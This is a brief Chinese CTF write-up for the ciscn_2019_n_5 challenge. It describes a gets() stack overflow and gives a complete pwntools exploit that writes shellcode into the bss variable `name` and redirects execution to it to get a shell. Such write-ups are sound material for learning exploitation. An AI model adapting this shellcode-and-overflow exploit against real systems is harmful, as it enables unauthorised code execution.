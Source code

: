 拖入IDA进行分析

![](img/7723c0916a4058447c4144d8e6312ef9.png)

一开始先向bss段上的`name`读入最大`0x64`字节的内容，之后再使用`gets()`读入到text上，存在栈溢出

故考虑先向`name`上写入shellcode再控制程序跳转至`name`即可

bss段上`name`的地址为`0x601080`

![3N50O64P@_TF@5SAT_@__KU.png](img/15b3278304c217b7b568ce52876b801a.png)

构造exp如下：

```
from pwn import *
context.arch = 'amd64'

bss_addr = 0x601080
payload = b'A'*0x20 + p64(0xdeadbeef) + p64(bss_addr)

p = process('./ciscn_2019_n_5')
p.sendline(asm(shellcraft.sh()))
p.sendline(payload)
p.interactive() 
```

运行，成功getshell
